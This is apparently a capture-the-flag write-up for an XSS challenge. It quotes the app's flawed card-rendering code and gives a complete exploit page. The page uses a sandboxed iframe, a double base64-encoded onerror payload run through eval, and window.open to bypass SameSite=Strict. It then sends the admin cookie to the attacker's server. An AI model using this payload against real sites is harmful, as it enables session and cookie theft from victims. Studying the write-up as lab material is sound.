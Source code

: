 # Write Up

Observation on the application:
- Flag is stored in admin cookie.
- Flag cookie is set to SameSite=Strict that means we can't access it from another domain, even from an iframe.
- The application is vulnerable to XSS in this code:

    ...snip...
    function createWaifuCardHTML(file, buttonText, buttonAction) {
        const sanitizedFile = DOMPurify.sanitize(file);
        const imgHTML = `<img src="${sanitizedFile}" class="card-img-top">`;
        const buttonHTML = `<button class="btn btn-outline-light" onclick="${buttonAction}('${sanitizedFile}')">${buttonText}</button>`;
        return `<div class="card text-center waifu-item">${imgHTML}<div class="btn-container">${buttonHTML}</div></div>`;
    }
    ...snip...

- But we can't directly exploit it because there's some restriction here:

    function displayClaimedWaifus(paths) {
        if (REGEX_SAVE_PROPS.test(initialHash)) {
            throwAlert("Invalid characters detected in the hash. Please try again.");
        }
        ...snip...
    }
    ...snip...

    
    ...snip...
    function throwAlert(message) {
        document.location.hash = "";
        alert(message);
        document.location = document.referrer;
    }
    ...snip...

Here the step to get xss and steal the flag

1. Create a page that contains the following code:

<body></body>
<script>
    const TARGET = "http://proxy"
    const i1 = document.createElement('iframe')
    function waifuDomainScript() {
        /**
            I use window.open to open a new window, this will make the browser create new window context that
            have cookies with SameSite=Strict.
        */
        const w = window.open("/")
        w.onload = () => {
            window.location = webhook + "?" + w.document.cookie
        }
    }

    let payload = btoa(`webhook='${location.origin}';(${waifuDomainScript})()`)
    payload = btoa(`" onerror="eval(atob('${payload}'))" x="`)
    i1.src = TARGET + '#' + payload
    /**
        Create a sandboxed iframe to prevent alert from being triggered.

        We only need to allow scripts, same origin, and popups, you can check the doc here:
        https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox

        Because the iframe have recursion prevention system that stated here:
        https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion
        the frame will eventually stop the recursion redirect through the document.referrer and execute our payload.

        There is other way to bypass this, but this is the shortest way to do it.
        As example you can use csp to prevent the frame from redirecting to document.referrer.
    */
    i1.sandbox = 'allow-scripts allow-same-origin allow-popups'
    document.body.appendChild(i1)
</script>

2.Serve the page using a web server, make sure the server is accessible from the internet.
3.Send the link to the victim.
4.Wait for the victim to open the link.
5.The flag will be sent to the webhook.

**Read more**
    https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value
    https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox
    https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion

